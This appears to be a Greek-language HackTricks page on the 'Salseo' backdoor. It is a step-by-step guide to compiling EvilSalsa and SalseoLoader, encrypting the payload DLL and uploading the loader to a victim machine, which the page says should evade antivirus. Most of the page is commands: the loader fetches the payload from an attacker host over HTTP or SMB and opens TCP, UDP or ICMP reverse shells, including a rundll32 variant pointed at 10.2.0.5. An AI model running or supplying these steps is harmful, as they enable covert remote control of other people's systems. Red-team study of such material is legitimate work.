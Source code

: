 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Συγκέντρωση των δυαδικών αρχείων

Κατεβάστε τον πηγαίο κώδικα από το github και συγκεντρώστε το **EvilSalsa** και το **SalseoLoader**. Θα χρειαστείτε εγκατεστημένο το **Visual Studio** για να συγκεντρώσετε τον κώδικα.

Συγκεντρώστε αυτά τα έργα για την αρχιτεκτονική του υπολογιστή Windows όπου θα τα χρησιμοποιήσετε (Αν τα Windows υποστηρίζουν x64, συγκεντρώστε τα για αυτές τις αρχιτεκτονικές).

Μπορείτε να **επιλέξετε την αρχιτεκτονική** μέσα στο Visual Studio στην **αριστερή καρτέλα "Build"** στην **"Platform Target".**

(\*\*Αν δεν μπορείτε να βρείτε αυτές τις επιλογές, πατήστε στην **"Project Tab"** και στη συνέχεια στην **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Στη συνέχεια, κατασκευάστε και τα δύο έργα (Build -> Build Solution) (Μέσα στα logs θα εμφανιστεί η διαδρομή του εκτελέσιμου):

![](<../.gitbook/assets/image (381).png>)

## Προετοιμάστε το Backdoor

Πρώτα απ' όλα, θα χρειαστεί να κωδικοποιήσετε το **EvilSalsa.dll.** Για να το κάνετε αυτό, μπορείτε να χρησιμοποιήσετε το python script **encrypterassembly.py** ή μπορείτε να συγκεντρώσετε το έργο **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Εντάξει, τώρα έχετε όλα όσα χρειάζεστε για να εκτελέσετε όλα τα πράγματα Salseo: το **encoded EvilDalsa.dll** και το **binary of SalseoLoader.**

**Ανεβάστε το SalseoLoader.exe binary στη μηχανή. Δεν θα πρέπει να ανιχνευτούν από κανένα AV...**

## **Εκτέλεση του backdoor**

### **Λήψη ενός TCP reverse shell (κατεβάζοντας το encoded dll μέσω HTTP)**

Θυμηθείτε να ξεκινήσετε ένα nc ως τον listener του reverse shell και έναν HTTP server για να σερβίρετε το encoded evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Λήψη ενός UDP reverse shell (κατέβασμα κωδικοποιημένου dll μέσω SMB)**

Θυμηθείτε να ξεκινήσετε ένα nc ως τον listener του reverse shell και έναν SMB server για να εξυπηρετήσει το κωδικοποιημένο evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Λήψη ICMP αντίστροφης θήκης (κωδικοποιημένο dll ήδη μέσα στον θύμα)**

**Αυτή τη φορά χρειάζεστε ένα ειδικό εργαλείο στον πελάτη για να λάβετε την αντίστροφη θήκη. Κατεβάστε:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Απενεργοποίηση Απαντήσεων ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Εκτέλεση του πελάτη:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Μέσα στον θύμα, ας εκτελέσουμε το salseo πράγμα:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Συγκέντρωση του SalseoLoader ως DLL που εξάγει τη βασική λειτουργία

Ανοίξτε το έργο SalseoLoader χρησιμοποιώντας το Visual Studio.

### Προσθέστε πριν από τη βασική λειτουργία: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Εγκαταστήστε το DllExport για αυτό το έργο

#### **Εργαλεία** --> **Διαχειριστής Πακέτων NuGet** --> **Διαχείριση Πακέτων NuGet για Λύση...**

![](<../.gitbook/assets/image (881).png>)

#### **Αναζητήστε το πακέτο DllExport (χρησιμοποιώντας την καρτέλα Περιήγηση) και πατήστε Εγκατάσταση (και αποδεχτείτε το αναδυόμενο παράθυρο)**

![](<../.gitbook/assets/image (100).png>)

Στο φάκελο του έργου σας έχουν εμφανιστεί τα αρχεία: **DllExport.bat** και **DllExport\_Configure.bat**

### **Α**πεγκαταστήστε το DllExport

Πατήστε **Απεγκατάσταση** (ναι, είναι περίεργο αλλά εμπιστευτείτε με, είναι απαραίτητο)

![](<../.gitbook/assets/image (97).png>)

### **Έξοδος από το Visual Studio και εκτέλεση του DllExport\_configure**

Απλά **έξοδος** από το Visual Studio

Στη συνέχεια, πηγαίνετε στο **φάκελο SalseoLoader** σας και **εκτελέστε το DllExport\_Configure.bat**

Επιλέξτε **x64** (αν πρόκειται να το χρησιμοποιήσετε μέσα σε ένα x64 box, αυτό ήταν η περίπτωση μου), επιλέξτε **System.Runtime.InteropServices** (μέσα στο **Namespace για DllExport**) και πατήστε **Εφαρμογή**

![](<../.gitbook/assets/image (882).png>)

### **Ανοίξτε ξανά το έργο με το Visual Studio**

**\[DllExport]** δεν θα πρέπει πλέον να επισημαίνεται ως σφάλμα

![](<../.gitbook/assets/image (670).png>)

### Δημιουργία της λύσης

Επιλέξτε **Τύπος Έξοδου = Βιβλιοθήκη Κλάσης** (Έργο --> Ιδιότητες SalseoLoader --> Εφαρμογή --> Τύπος εξόδου = Βιβλιοθήκη Κλάσης)

![](<../.gitbook/assets/image (847).png>)

Επιλέξτε **πλατφόρμα x64** (Έργο --> Ιδιότητες SalseoLoader --> Δημιουργία --> Στόχος πλατφόρμας = x64)

![](<../.gitbook/assets/image (285).png>)

Για να **δημιουργήσετε** τη λύση: Δημιουργία --> Δημιουργία Λύσης (Μέσα στην κονσόλα εξόδου θα εμφανιστεί η διαδρομή της νέας DLL)

### Δοκιμάστε την παραγόμενη DLL

Αντιγράψτε και επικολλήστε την DLL όπου θέλετε να τη δοκιμάσετε.

Εκτελέστε:
```
rundll32.exe SalseoLoader.dll,main
```
Αν δεν εμφανιστεί σφάλμα, πιθανότατα έχετε μια λειτουργική DLL!!

## Αποκτήστε ένα shell χρησιμοποιώντας τη DLL

Μην ξεχάσετε να χρησιμοποιήσετε έναν **HTTP** **server** και να ρυθμίσετε έναν **nc** **listener**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
